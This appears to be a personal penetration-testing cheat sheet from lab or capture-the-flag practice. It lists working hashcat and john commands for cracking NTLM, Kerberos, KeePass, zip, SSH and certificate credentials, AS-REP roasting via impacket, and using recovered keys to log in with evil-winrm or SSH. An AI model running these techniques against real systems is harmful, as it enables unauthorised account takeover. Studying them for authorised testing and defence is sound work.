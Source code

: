Look up hash type here https://hashcat.net/wiki/doku.php?id=example_hashes

Can use john to figure out hash type automatically:
```
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hash.txt
```

NTLM w hashcat
```
hashcat -m 1000 hash_admin.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

NTLMv2 w hashcat
```
hashcat -m 5600 -a 0 -o cracked.txt --force hash_147.txt /usr/share/wordlists/rockyou.txt
```

Database.kdbx w hashcat
`Keepass2john Database.kdbx > keepass.hash`
- remove "Database:" from beginning of hash, or whatever the filename: of the kdbx is
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
or
```
john keepass.hash -w:/usr/share/wordlists/rockyou.txt
```
can also open kdbx with kpcli if you have password
```
kpcli --kdb passwords.kdbx
```
- or can just run `kpcli` and once in kpcli run `open passwords.kdbx` and it will ask for the password
- from there `ls` and `cd` through the groups until you see an entry. to see info:
	- `show -f 0` for entry 0
	- `show -f 1` for entry 1


Keepass .dmp file
```
python keepass_dump.py -f KeePassDumpFull.dmp
```
- from https://github.com/z-jxy/keepass_dump
- will extract as many letters from the keepass master password as it can find
- try googling the rest to fill in the blanks


Converting putty key to openssh
- copy everything starting with "PuTTY-User-Key-File-3: ssh-rsa" and the whole key into a file named `root-putty.key`
	- remove all spaces before each line in vim `%s/^\s\+//`
```
puttygen root-putty.key -O private-openssh -o keeper-root
```
- then ssh with key:
```
ssh -i keeper-root root@10.129.215.139
```


asrep roast w hashcat
`proxychains -q impacket-GetNPUsers -dc-ip 172.16.145.6 -request -outputfile hashes.asreproast relia.com/jim:"Castello1\!"`
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

zip with john
`zip2john sitebackup3.zip > zip3.hash`
```
john --wordlist=/usr/share/wordlists/rockyou.txt zip3.hash
```
`john zip3.hash --show`

ssh with john
`ssh2john id_ecdsa > anita.hash`
```
john --wordlist=/usr/share/wordlists/rockyou.txt anita.hash
```
`ssh -i ./id_ecdsa anita@192.168.164.245 -p 2222`

pfx2john
```
pfx2john legacyy_dev_auth.pfx > pfx.hash
```
crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash
```

pem2john
```
pem2john ./privkey.pem > hash.txt
```
crack it
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

use password to extract keys and certificate
```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key
```
- it will ask for password and PEM pass phrase (make up pass phrase here: 4+ characters)
decrypt password:
```
openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth_decoded.key
```
dump the certificate:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
connect with key and cert:
```
evil-winrm -i 10.129.98.245 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```


Password generating
```
crunch 6 6 -t Lab%%% > wordlist
```
- minimum and maximum length to 6 characters
- specify the pattern using the -t parameter
- then hard-code the first three characters to 'Lab' followed by three numeric digits

Kerberoasting
- ex: $krb5tgs hash from GetUsersSPNs.py
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- use https://hashcat.net/wiki/doku.php?id=example_hashes to search hash types
- in vim
	- `:%s/\s\+//g`
		- removes all spaces
	- `:%s/\n//g`
		- joins all lines to a single line

create a sub-wordlist from rockyou containing all words with ninja:
```
grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja
```
- useful if there's a hint at what the password is, speed up cracking